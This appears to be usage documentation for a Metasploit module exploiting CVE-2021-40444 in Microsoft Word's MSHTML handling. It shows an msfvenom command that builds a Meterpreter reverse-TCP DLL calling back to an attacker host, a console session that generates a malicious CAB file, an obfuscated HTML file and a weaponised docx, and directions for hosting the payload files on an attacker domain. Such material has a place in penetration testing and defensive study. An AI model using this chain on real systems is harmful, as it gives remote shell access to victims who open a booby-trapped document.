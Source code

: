 ```
msfvenom -p windows/x64/meterpreter/reverse_tcp -a x64 LHOST=172.20.7.36 LPORT=4444 -f dll > /tmp/meterpreter.dll
```

#### Generate exloit files

```
msf6 auxiliary(docx/word_mshtml_injector) > use auxiliary/docx/word_mshtml_injector
msf6 auxiliary(docx/word_mshtml_injector) > set payload_dll /tmp/meterpreter.dll
payload_dll => /tmp/meterpreter.dll
msf6 auxiliary(docx/word_mshtml_injector) > set srvhost www.domain.tld
srvhost => www.domain.tld
msf6 auxiliary(docx/word_mshtml_injector) > set verbose true 
verbose => true
msf6 auxiliary(docx/word_mshtml_injector) > run

[*] CVE-2021-40444: Generate a malicious cabinet file
[*] Data block added w/ checksum: da25c9bd
[+] LgxqWUP.cab stored at /home/mekhalleh/.msf4/local/LgxqWUP.cab
[*] CVE-2021-40444: Generate a malicious html file
    - obfuscate JavaScript content
[+] LgxqWUP.html stored at /home/mekhalleh/.msf4/local/LgxqWUP.html
[*] CVE-2021-40444: Generate a malicious docx file
    - using template '/opt/metasploit/data/exploits/cve-2021-40444.docx'
[*] Parsing item from template: [Content_Types].xml
[*] Parsing item from template: _rels/
[*] Parsing item from template: _rels/.rels
[*] Parsing item from template: docProps/
[*] Parsing item from template: docProps/core.xml
[*] Parsing item from template: docProps/app.xml
[*] Parsing item from template: word/
[*] Parsing item from template: word/theme/
[*] Parsing item from template: word/theme/theme1.xml
[*] Parsing item from template: word/styles.xml
[*] Parsing item from template: word/settings.xml
[*] Parsing item from template: word/document.xml
[*] Parsing item from template: word/_rels/
[*] Parsing item from template: word/_rels/document.xml.rels
[*] Parsing item from template: word/fontTable.xml
[*] Parsing item from template: word/webSettings.xml
    - injecting payload in docx document
    - finalizing docx 'msf.docx'
[+] msf.docx stored at /home/mekhalleh/.msf4/local/msf.docx
[*] Auxiliary module execution completed
msf6 auxiliary(docx/word_mshtml_injector) > 
```

#### Hosting CAB and HTML files

Need to host the CAB and HTML as following:
 - https://www.domain.tld/LgxqWUP.cab
 - https://www.domain.tld/LgxqWUP.html
